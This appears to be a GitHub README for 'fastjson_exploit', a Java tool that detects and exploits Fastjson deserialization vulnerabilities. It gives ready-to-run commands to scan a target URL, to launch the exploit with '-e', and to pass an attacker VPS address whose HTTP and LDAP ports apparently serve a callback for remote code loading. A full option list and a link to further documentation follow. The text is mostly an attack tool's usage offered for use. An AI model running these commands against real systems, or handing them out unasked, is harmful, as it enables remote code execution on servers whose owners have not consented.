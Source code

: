 # fastjson_exploit
Fastjson 反序列化漏洞快速检测和利用工具

检测：
java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar  -u 目标url

利用：
java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -e -u 目标url 

vps环境:
java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -e -H vps公网ip -u 目标url  

详细参数:
java -jar fastjson_exploit-1.0-SNAPSHOT-all.jar -h

usage: java -jar fastjson_exploit.jar [-H ip/vps_ip][-hp http_port][-lp
            ldap_port][-sp socket_port][-p
            params_name][-e/--exploit][-h/--help] -u/--url url
 -c,--cookie <arg>       The cookie of fastjson target.
 -e,--exploit            exploit,default is check.
 -h,--help               print help.
 -H,--host <arg>         The address of server(ip or domain).
 -hp,--http_port <arg>   The port of jetty server.
 -lp,--ldap_port <arg>   The port of ldap server.
 -p,--params <arg>       The params of fastjson target.
 -u,--url <arg>          The url of fastjson target.


详细文档:
http://mp.weixin.qq.com/s?__biz=MzIyNzY1MzUxMQ==&mid=100000244&idx=1&sn=801c947da8f74a4bda5039994951f040&chksm=685ca31c5f2b2a0a414e2848cc7f6e5a6778bbd309fc8d46bb4f4c7769d9f43ae06e0bae4959#rd
